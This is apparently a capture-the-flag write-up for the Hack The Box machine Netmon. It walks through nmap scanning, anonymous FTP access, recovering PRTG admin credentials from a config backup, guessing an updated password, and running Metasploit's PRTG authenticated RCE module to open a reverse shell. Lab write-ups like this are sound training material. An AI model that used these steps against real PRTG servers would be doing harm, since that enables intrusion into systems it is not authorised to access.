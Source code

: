 # Netmon (10.10.10.152 -windows)
## Writeup by Hexachroma

1. nmap -sC -sV -oN nmap/init 10.10.10.152 -v 
```
21/tcp  open  ftp          Microsoft ftpd                              
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd                          
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs                      
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)           
| 02-03-19  08:08AM       <DIR>          Users                         
|_02-25-19  11:49PM       <DIR>          Windows           
| ftp-syst:                                                            
|_  SYST: Windows_NT                                                   
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)                                                         
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479  
| http-methods:                                                        
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm 
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

2. Enumerating FTPuser to get juicy user.txt
>	`get C:\Users\public\user.txt`

3. Looking at the webserver and found out PRTG NETMON is installed
>	Stumble upon official documentation and learn that this app stores old config data
>	Using FTP to reach and download the conf
>	![](docs/ftp.png)

4. Open the xml bak file
>	Found possible cred
>	![](docs/cred.png)

5. Try FTP with prtgadmin:PrTg@dmin2018
>	Failed

6.	Lets get back to login page (netmon.htb/index.htm)
>	Using prtgadmin:PrTg@dmin2018 and fail
>	Using prtgadmin:PrTg@dmin2019 Success!
>	![](docs/loginpage.png)

7.	find further vulnerability in current version
>	![](docs/vuln.png)

8. 	searchsploit current version
>	![](docs/searchsploit.png)

9.	using metasploit 
>	`use exploit/windows/http/prtg_authenticated_rce`
>	`set admin_password PrTg@dmin2019`
>	`set RHOST $IP`
>	`set LHOST tun0`
>	`set LPORT 9001`
>	run
>	![](docs/rce.png)